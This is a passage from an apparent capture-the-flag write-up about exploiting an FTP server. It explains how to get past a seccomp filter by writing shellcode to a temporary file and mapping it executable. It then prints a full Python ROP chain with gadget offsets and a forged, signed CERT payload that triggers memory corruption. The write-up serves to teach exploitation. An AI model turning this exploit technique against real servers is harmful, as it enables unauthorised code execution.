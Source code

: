 The FTP server's seccomp filter blocks execve. So, uploading a separate program and executing it will be out of the question. Instead, I decided to use the Shellcode Compiler from Binary Ninja to compile C code into portable machine code that can be directly injected into the process. The Shellcode Compiler produces compact, self-contained programs with support for functions like `fprintf` in just a few KB of code.

The seccomp filter also prevents calling `mmap` with a `prot` argument greater than 5. Thus, we cannot use `PROT_WRITE | PROT_EXEC` or `PROT_READ | PROT_WRITE | PROT_EXEC`. To work around the `mmap` limitation, I wrote the machine code into a temporary file, then `mmap`ed that file as `PROT_READ | PROT_EXEC`. The basic idea is to use a ropchain to call `open("temp", O_RDWR, 0666)`, then `read(5, buffer, 4096)`, `write(tempfd, buffer, 4096)`, and finally `mmap(NULL, 4096, PROT_READ | PROT_EXEC, MAP_SHARED, tempfd, 0)`. Here's how that looks in the FTP server exploit (full exploit in [`run_shellcode.py`](files/stage5/run_shellcode.py)):

```python
pop_rdi = libcbase + 0x0007a307
pop_rsi = libcbase + 0x0007a0ff
pop_rdx_rcx_rbx = libcbase + 0x001025ad
pop_rdx_r12 = libcbase + 0x00134c09
mov_rdx_rax = libcbase + 0x000425cf
pop_rsp = libcbase + 0x00054d0d
ropspace = heapbase + 0x10000
dataspace = heapbase + 0x11000
mov_rax_rdx = libcbase + 0x000b6b18
inc_rax = libcbase + 0x000cfb20
mov_r8d_eax = libcbase + 0x0011f807
mov_r9_rax_pop_r12_r13_r14 = libcbase + 0x0007a1a0

shellcode = open("stager", "rb").read()

# fds: 0=stdin, 1=stdout, 2=stderr, 3=serial_port, 4=server_sock, 5=client_sock, 6=dbg
rop = [
    # open(filename, O_RDWR | O_CREAT, 0o666)
    pop_rdi, exebase + 0x6354, # "listen"
    pop_rsi, 0x42,
    pop_rdx_rcx_rbx, 0o666, 0, 0,
    exebase + 0x22d0,
    # read(5, dataspace, len(shellcode))
    pop_rdi, 5,
    pop_rsi, dataspace,
    pop_rdx_rcx_rbx, len(shellcode), 0, 0,
    exebase + 0x21c0,
    # write(7, dataspace, len(shellcode))
    pop_rdi, 7,
    pop_rsi, dataspace,
    pop_rdx_rcx_rbx, len(shellcode), 0, 0,
    exebase + 0x20c0,
    # mmap(NULL, len(shellcode), PROT_READ | PROT_EXEC, MAP_SHARED, 7, 0)
    pop_rdx_r12, 7, 0, mov_rax_rdx, mov_r8d_eax,
    pop_rdx_r12, 0, 0, mov_rax_rdx, mov_r9_rax_pop_r12_r13_r14, 0, 0, 0,
    pop_rdx_rcx_rbx, 5, 1, 0,
    pop_rdi, 0,
    pop_rsi, (len(shellcode) + 4095) & ~0xfff,
    libcbase + 0x1188f0,
    # jmp rax
    libcbase + 0x0007e051,
]
payload = flat(rop) + b"perms=63&user=x"
sig = sign(payload)
payload = payload.replace(b"\0", b"\n") + b"&sig=%d&" % sig
payload = payload.ljust(0x208, b"X")
assert len(payload) == 0x208
payload = payload + p64(0x41) + struct.pack("<QQQQQQ", 1, 0xff, certaddr, 0, signptr(pop_rdi), 0)
send_cmd("CERT", base64.b64encode(payload), reply=False)

```